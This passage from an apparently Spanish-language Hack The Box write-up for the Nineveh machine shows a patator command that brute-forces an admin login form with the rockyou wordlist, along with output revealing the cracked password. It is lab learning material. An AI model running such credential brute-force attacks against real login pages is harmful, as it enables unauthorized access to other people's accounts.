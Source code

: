 ```bash
❯ ./patator.py http_fuzz url="http://nineveh.htb/department/login.php" method=POST body='username=admin&password=FILE0' 0=/usr/share/wordlists/rockyou.txt -x ignore:fgrep="Invalid Password\!"
21:52:36 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.2 at 2021-11-27 21:52 CST
21:52:36 patator    INFO -                                                                              
21:52:36 patator    INFO - code size:clen       time | candidate                          |   num | mesg
21:52:36 patator    INFO - -----------------------------------------------------------------------------
21:53:40 patator    INFO - 302  2049:1706      0.137 | 1q2w3e4r5t                         |  4553 | HTTP/1.1 302 Found
^C21:53:45 patator    INFO - Hits/Done/Skip/Fail/Size: 1/4910/0/0/14344392, Avg: 71 r/s, Time: 0h 1m 8s
21:53:45 patator    INFO - To resume execution, pass --resume 491,491,491,491,491,491,491,491,491,491
```

Ya tenemos las credenciales del segundo panel del login `admin : 1q2w3e4r5t`; asi que vamos a guardarlas y luego utilizarlas para ver el contenido web.

![""](/assets/images/htb-nineveh/nineveh-web9.png)

